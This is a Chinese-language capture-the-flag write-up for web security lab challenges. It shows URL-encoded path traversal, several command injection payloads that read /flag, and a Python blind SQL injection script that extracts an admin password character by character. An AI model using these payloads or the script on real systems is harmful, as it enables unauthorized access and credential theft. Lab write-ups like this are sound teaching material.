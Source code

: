 # Web Security

## Path Traversal 1

- 根据路径遍历，考虑到请求`http://challenge.localhost/../../flag`，失败
- 需要进行url编码：`http://challenge.localhost/..%2F..%2Fflag`，得到flag

## Path Traversal 2

- 根据路径遍历，采用第一种方式`http://challenge.localhost/..%2F..%2Fflag`，发现被过滤
- 进入到fortunes中采用第一种方式，相当于以文件形式访问，`http://challenge.localhost/fortunes/..%2F..%2F..%2Fflag`，得到flag

## CMDi 1

- 执行`/flag | cat /flag`即可

## CMDi 2

- 执行`/flag | cat /flag`即可

## CMDi 3

- 绕过单引号，执行`/' | cat '/flag`即可

## CMDi 4

- 中间注入，直接执行`Asian | cat /flag | cat`即可

## CMDi 5

- 主页面没有输出，所以我们需要把运行结果重定向到文件中，执行`/flag | cat /flag > /challenge/output`即可，然后去`cat /challenge/output`即可获取

## CMDi 6

- 大部分能用到的字符都被过滤了，考虑用换行符结束上一个命令，换行符经过URL编码后是`%0A`，所以注入`%0A cat /flag`即可。



## SQLi 5

```python
import string
import requests

searchspace = ''.join(chr(i) for i in range(32, 127)) 
solution = ''
url = "http://challenge.localhost:80"

while True:
    found = False
    for char in searchspace:
        payload = f"admin' AND SUBSTR(password, {len(solution)+1}, 1) = '{char}'-- -"
        data = {
            "username": payload,
            "password": "irrelevant"
        }

        response = requests.post(url, data=data)

        if "Hello" in response.text:
            solution += char
            print(f"[+] Found so far: {solution}")
            found = True
            break

    if not found:
        print("[*] Done. Final password:", solution)
        break
```

